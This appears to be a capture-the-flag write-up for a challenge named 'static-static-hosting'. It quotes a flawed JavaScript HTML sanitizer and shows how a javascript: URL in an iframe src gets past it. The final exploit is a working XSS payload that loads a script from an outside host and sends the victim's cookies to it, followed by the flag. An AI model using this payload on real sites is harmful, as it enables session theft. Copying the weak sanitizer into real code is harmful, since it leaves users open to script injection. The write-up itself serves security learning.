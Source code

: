 # static-static-hosting

Source: [script.js](./script.js)

```js
function sanitize(element) {
	const attributes = element.getAttributeNames();
	for (let i = 0; i < attributes.length; i++) {
		// Let people add images and styles
		if (!["src", "width", "height", "alt", "class"].includes(attributes[i])) {
			element.removeAttribute(attributes[i]);
		}
	}

	const children = element.children;
	for (let i = 0; i < children.length; i++) {
		if (children[i].nodeName === "SCRIPT") {
			element.removeChild(children[i]);
			i--;
		} else {
			sanitize(children[i]);
		}
	}
}
```

This time, the script sanitizes your input by removing all attributes except those on a whitelist and removing all script elements. However, we can still perform XSS by using a `javascript:` url as an iframe src.

Final Exploit:

```html
<iframe src="javascript:a=document.createElement('script'),a.setAttribute('src','https://example.com/x.js?cookie='+document.cookie),document.documentElement.appendChild(a)"></iframe>
```

Flag: `flag{wh0_n33d5_d0mpur1fy}`
